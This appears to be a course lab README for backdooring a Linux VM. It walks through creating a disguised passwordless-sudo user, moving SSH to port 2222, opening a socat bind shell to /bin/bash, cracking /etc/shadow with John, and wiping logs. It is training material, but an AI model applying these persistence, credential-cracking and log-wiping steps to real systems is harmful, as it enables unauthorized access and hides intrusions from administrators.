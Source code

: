 # BackdoorLinux
working on creating a script for backdooring linux system

Instructions
Get started by logging into the VM as root.

Shadow People
In this step, you'll create a "secret" user named sysd. Anyone examining /etc/passwd will assume this to be a service account, but in fact, you'll be using it to reconnect to the machine for further exploitation.
Make sure to give your sysd user:

A password
A System UID (i.e., UID < 1000)
A GID equal to this UID
Full, password-less sudo access

In addition, minimize exposure by ensuring that your secret user does not have a home folder.
Test that your sysd user can execute commands with sudo access without a password before moving on.

Smooth Sailing
In this step, you'll allow SSH access via port 2222. SSH usually runs on port 22, but opening port 2222 will allow you to log in as your secret user without connecting to the standard (and well-guarded) port 22.
This will require some research. Start by examining /etc/ssh/sshd_config and using Google or the man pages to learn more about the available configuration options.
When you think you've configured things properly, test your solution by:

Noting the IP address of the system
Exiting the root account, and logging off of the machine
Using your local command line to SSH into the system as your sysd user

Use Git bash for this on Windows, and Terminal on OS X.



Once you are connected over SSH, use sudo to switch back to the root user.
Note that this was an important step. You were able to log out of your root account, and then reestablish a session with escalated privileges.
The ensuing steps will make this backdoor even subtler and, therefore, more effective.

Two doors are better than one.
What happens if someone discovers the sysd account and removes it? For this reason, hackers often install more than one backdoor.
Next, you will use a program called socat to create a second backdoor. Socat allows you to easily connect to a machine and can provide a bash shell without using ssh.
Use this article Socat: The General Bidirectional Pipe Handler to learn more about it and what it can do.
After reading the article, install socat and use the following command to open a Listener: socat TCP4-Listen:3177,fork EXEC:/bin/bash

A socat listener is a process that runs continuously and listens for connections. Once the process is running, you can send it commands and interact directly with the server from another machine.
Study the above command and use google to learn what each part is doing. In your solutions submission.md file, describe what each part of this command does.

After you start the listener, exit your ssh session and test that you can run socat commands from your local machine's command line.

Run socat STDIO TCP4:<Your-VM-IP-address>:3177 on your local machine.
The cursor should return to the next line and appear as if nothing has happened.

$ socat STDIO TCP4:<Your-VM-IP-address>:3177
|
From here you should be able to type standard bash commands.


Try a few commands like ls and cd


Once you confirm that the connection is working, exit the socat connection.


Note that as long as the socat process is running, you will be able to connect to the system. This serves as a great second backdoor incase your hidden user is compromised.
If the machine is restarted, the process will stop. To take this attack to the next level, we could create a script that continually runs a process like this in the background. That way, this connection is always available, even if the machine restarts. Furthermore, we could include scripts that hide the process from utilities like ps.
Attacks like this will be further explored in the pentesting weeks of class, so for now it's enough to understand how this works and confirm the connection is operational.

Crack all the things
Next, to strengthen our foothold on this system, we will attempt to crack as many passwords as we can.
Having access to all the accounts will also allow us to access the system if our other backdoors are closed.


SSH back to the system using your sysd account.


Escalate your privileges to the root user.


Use John to crack the entire /etc/shadow file.


Note that the reality of cracking passwords is that the process just takes time. Now might be a good opportunity to grab some coffee or take a break and let the computer do the work for you.

Cover your tracks
At this point, we own this system. We have the passwords for all the users, including the root user. We have a secret user in case the other users change their passwords. We have a socat process running that allows connections.
From here, we want to hide as much evidence that we were ever on this system as we can .
We know that Linux keeps logs of everything that happens, leaving a trail for a system administrator to figure out everything you have done. Our last step? Clear the logs.

Use socat with a for loop to clear all system logs.
